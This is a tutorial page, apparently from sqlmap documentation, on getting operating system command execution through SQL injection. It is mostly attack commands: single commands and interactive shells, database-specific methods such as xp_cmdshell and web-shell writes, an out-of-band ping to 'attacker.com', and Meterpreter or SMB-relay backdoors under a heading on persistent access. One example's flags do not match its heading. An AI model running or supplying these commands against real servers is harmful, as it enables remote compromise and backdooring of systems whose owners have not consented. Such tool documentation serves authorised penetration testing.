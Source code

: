 ```yaml
---
title: OS Command Execution
description: Learn how to execute operating system commands through SQL injection vulnerabilities using SQLMap
---
```


# OS Command Execution

SQLMap provides several methods to execute operating system commands on the target server through SQL injection vulnerabilities. These techniques depend on the database management system and the privileges available.

## Basic OS Command Execution

### Single Command Execution (`--os-cmd`)

To execute a single operating system command:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-cmd="whoami"
```

This executes the specified command and returns its output. It's useful for quick verification of command execution capabilities.

### Interactive OS Shell (`--os-shell`)

To obtain an interactive shell:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-shell
```

This provides an interactive command prompt where you can execute multiple commands on the target system.

## DBMS-Specific Techniques

Different database systems have different mechanisms for command execution:

### MySQL

For MySQL, SQLMap typically uses:
- `SELECT ... INTO OUTFILE` to write a web shell
- User-defined functions (UDFs) if the database user has sufficient privileges

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-shell --dbms=mysql
```

### Microsoft SQL Server

For SQL Server, SQLMap uses:
- `xp_cmdshell` extended stored procedure
- CLR assemblies if `xp_cmdshell` is disabled

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-shell --dbms=mssql
```

### PostgreSQL

For PostgreSQL, SQLMap uses:
- `COPY TO/FROM PROGRAM` functionality
- Custom user-defined functions

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-shell --dbms=postgresql
```

### Oracle

For Oracle, SQLMap uses:
- Java stored procedures
- External tables
- PL/SQL packages

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-shell --dbms=oracle
```

## Advanced Command Execution Options

### Specifying Command Prompt Type

You can specify the type of shell to use:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-shell --os-pwn --msf-path=/path/to/metasploit --tmp-path=/tmp
```

### Out-of-Band Command Execution

For situations where direct command output retrieval is not possible:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-cmd="ping -c 4 attacker.com" --technique=T
```

This executes commands that produce observable side effects (like network connections) rather than direct output.

## Establishing Persistent Access

### Meterpreter Shell (`--os-pwn`)

To establish a Meterpreter session using Metasploit:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-pwn --msf-path=/path/to/metasploit
```

This creates a more sophisticated backdoor using Metasploit's capabilities.

### Custom Backdoor (`--os-smbrelay`)

To create a custom backdoor:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --os-smbrelay
```


## Troubleshooting Command Execution

If command execution fails, try these approaches:

1. Verify the database user has sufficient privileges
2. Try different command execution techniques with `--technique`
3. Use stacked queries if supported by the injection point
4. Try different output retrieval methods with `--tmp-path`
5. Check if antivirus or security controls are blocking execution

Remember that command execution capabilities vary significantly based on:
- The specific DBMS version
- Database user privileges
- Server configuration
- Security controls in place
